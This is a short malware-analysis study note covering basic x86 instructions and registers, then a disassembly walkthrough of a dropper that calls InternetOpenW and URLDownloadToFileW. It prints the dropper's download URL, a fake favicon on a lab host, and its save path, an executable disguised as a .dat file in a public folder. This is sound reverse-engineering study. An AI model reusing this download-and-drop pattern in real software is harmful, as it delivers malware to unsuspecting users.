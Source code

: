 - `mov`: transfer data from source to target
- `jmp`: jump to another piece of code 
- `push`: Add the element on the stack
- `pop`: Remove the last element from the stack
- `call`: Call a method
- `ret`: Return to the called function

# CPU Register
 - `eax`: **Accumulate** register
 - `edx`: **Data** register
 - `ebx`: **Base** register
 - `esp`: **Extend Stack Pointer**
 - `ebp`: **Extend Base Pointer**
 - `eip`: Extend Instruction Pointer


## Dropper Analysis Assembly 
The first thing the dropper do is to `push` the main address location in `ebp` register. This because the dropper now knows where to return when call external function.

![[Pasted image 20241214114850.png]]

### API Call

#### InternetOpenW

The dropper using the `call` instruction to call the `InternetOpenW` windows API. The interesting thing is the parameter pass in reverse to the function, that because the stack work in `LIFO`. 

![[Pasted image 20241214115751.png]]

So now we have the 
- [in] DWORD dwFlags = `push 0 `
- [in] LPCWSTR lpszProxyBypass = `push 0 `
- [in] LPCWSTR lpszProxy = `push 0 `
- [in] DWORD dwAccessType = `push 0 `
- [in] LPCWSTR lpszAgent = `push str.Mozilla_5.0; 0x403288` 

and finally the call to the `InternetOpenW`

#### URLDownloadToFileW
Similar to InternetOpenW the dropper call another windows API `URLDownloadToFileW` 

![[Pasted image 20241214120850.png]]

- `szURL` = push str.http:__ssl_6582datamanager.helpdeskbros.local_favicon.ico
- `szFileName` = push str.C:_Users_Public_Documents_CR433101.dat.exe

